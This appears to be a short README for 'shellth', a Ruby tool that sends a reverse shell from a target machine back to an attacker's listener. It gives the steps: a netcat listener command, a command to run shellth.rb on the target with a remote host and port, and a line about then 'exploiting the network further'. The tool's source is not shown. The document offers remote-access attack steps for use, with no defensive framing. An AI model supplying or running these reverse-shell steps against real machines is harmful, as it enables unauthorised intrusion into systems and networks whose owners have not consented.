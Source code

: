 shellth
=======================================================================================================================
[![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl-150x33.png?v=103)](https://opensource.org/licenses/GPL-3.0/)

[![Open Source Love](https://badges.frapsoft.com/os/v2/open-source-175x29.png?v=103)](https://github.com/ellerbrock/open-source-badges/)

**With shellth you can send back a reverse shell to a listening attacker to open a remote network access.**  

**1. Set up a listener. `$ nc -n -lvp <port>`**  
**2. Now run on the target machine. `$ ruby shellth.rb --rhost <remote host> --port <port>`**  
**3. Now it should be a simple case of exploiting the network further.**  

[![Ruby](https://img.shields.io/badge/Ruby-CC342D?style=for-the-badge&logo=ruby&logoColor=white/)
